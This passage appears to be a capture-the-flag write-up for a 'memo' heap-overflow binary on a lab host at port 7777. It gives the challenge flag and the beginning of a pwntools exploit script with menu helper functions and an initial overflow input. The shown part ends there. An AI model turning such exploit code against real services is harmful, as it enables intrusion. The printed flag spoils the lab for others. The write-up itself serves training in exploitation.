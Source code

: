   

  

### Memo

#### JET{7h47s_7h3_sp1r17}

  

The last challenge involves the binary `memo`that we found before along with the other one, which we can see is the same service that is running on the port`7777`

```
❯ ./memo

--==[[ Spiritual Memo ]]==--  

[1] Create a memo
[2] Show memo
[3] Delete memo
[4] Tap out
>
```

  

```
❯ netcat 10.13.37.10 7777  

--==[[ Spiritual Memo ]]==--

[1] Create a memo
[2] Show memo
[3] Delete memo
[4] Tap out
>
```

  

We find ourselves again with a heap overflow challenge that is `ctf`again quite long, let's go directly to the `script`end of exploitation

```
#!/usr/bin/python3
from pwn import remote, p64, u64

shell = remote("10.13.37.10", 7777)

def create_memo(data, answer, more):
    shell.sendlineafter(b"> ", b"1")
    shell.sendlineafter(b"Data: ", data)
    if answer[:3] == "yes":
        shell.sendafter(b"[yes/no] ", answer.encode())
    else:
        shell.sendafter(b"[yes/no] ", answer)
        shell.sendafter(b"Data: ", more)

def show_memo():
    shell.sendlineafter(b"> ", b"2")
    shell.recvuntil(b"Data: ")

def delete_memo():
    shell.sendlineafter(b"> ", b"3")

def tap_out(answer):
    shell.sendlineafter(b"> ", b"4")
    shell.sendafter(b"[yes/no] ", answer)

create_memo(b"A" * 0x1f, b"no", b"A" * 0x1f)
```
